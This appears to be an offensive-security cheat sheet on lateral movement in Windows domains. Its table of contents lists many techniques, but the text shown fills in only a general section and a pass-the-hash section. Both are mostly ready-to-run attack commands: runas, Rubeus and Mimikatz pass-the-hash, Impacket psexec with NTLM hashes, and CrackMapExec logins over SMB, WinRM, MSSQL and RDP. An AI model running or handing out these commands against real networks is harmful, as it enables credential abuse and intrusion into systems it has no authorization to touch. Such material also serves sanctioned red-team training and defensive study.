 # Lateral Movement
* [General](#General)
* [Pass The Hash](#Pass-The-Hash)
  * [Overpass The Hash](#Overpass-The-Hash)
* [Check Local Admin Access](#Check-Local-Admin-Access)  
* [Lateral Movement Techniques](#Lateral-Movement-Techniques)
  * [PSSession](#PSSession) 
  * [PSExec](#PSExec)
  * [SC.exe](#SC.exe)
  * [Schtasks.exe](#schtasks.exe)
  * [AT](#AT)
  * [WMI](#WMI)
  * [Poisonhandler](#Poisonhandler)
  * [RDP](#RDP)
  * [ChangeServiceConfigA](#ChangeServiceConfigA)
  * [WinRM](#WinRM)
  * [DCOM](#DCOM)
  * [Named Pipes](#Named-Piped)
  * [Powershell Web access](#Powershell-Web-access)
  * [NTLM Relaying](#NTLM-Relaying)

## General
### Run as context of other user
#### Runas other user
```
runas /netonly /user:<DOMAIN>\<USER> cmd.exe
runas /netonly /user:<DOMAIN>\<USER> powershell.exe
```

#### Rubeus
```
.\rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /dc:<DC IP> /rc4:<HASH>
```

#### Mimikatz
```
mimikatz.exe sekurlsa::pth /domain:<DOMAIN> /user:<USER> /rc4:<HASH>
```

## Pass the hash
#### Impacket
- Use the empty lm hash ```00000000000000000000000000000000```
- https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.22.dev-binaries
```
.\psexec_windows.exe -hashes <LM HASH>:<NTLM HASH> <DOMAIN>/<USER>@<COMPUTERNAME>
```

#### Crackmapexec
- Required elevated privileges to execute commands
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme winrm <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme mssql <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme rdp <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
```
